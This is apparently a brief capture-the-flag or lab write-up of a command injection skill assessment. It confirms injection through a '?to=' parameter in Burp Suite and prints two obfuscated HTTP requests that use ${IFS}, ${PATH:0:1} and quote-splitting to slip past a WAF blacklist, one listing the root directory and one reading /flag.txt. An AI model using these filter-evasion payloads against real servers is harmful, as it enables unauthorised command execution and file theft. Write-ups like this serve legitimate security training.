 >Successfully Identified command injection in the `?to=` parameter.  
>Sending the request to Burp Suite Repeater where I see below the `uname` command executed, giving the response of `Linux`.  

![cmd-inject-skill-assess-success-intruder-attack-response](/images/cmd-inject-skill-assess-success-intruder-attack-response.png)  

>Modifying the request in repeat with a Payload to list the root `/` folder and list all hidden files with the command, `&$()ls / -al`.
>The obfuscated payload below:  

```
GET /index.php?to=tmp%26$()l's'${IFS}${PATH:0:1}${IFS}-a'l'&from=2561732172.txt&finish=1&move=1 HTTP/1.1
```  

>Bash command to read the flag contents, `&$()cat /flag.txt`.  
>Below is the obfuscated command injection payload to bypass blacklisted commands and characters through WAF filters.  

```
GET /index.php?to=tmp%26$()c'a't${IFS}${PATH:0:1}flag.txt&from=2561732172.txt&finish=1&move=1 HTTP/1.1
```  
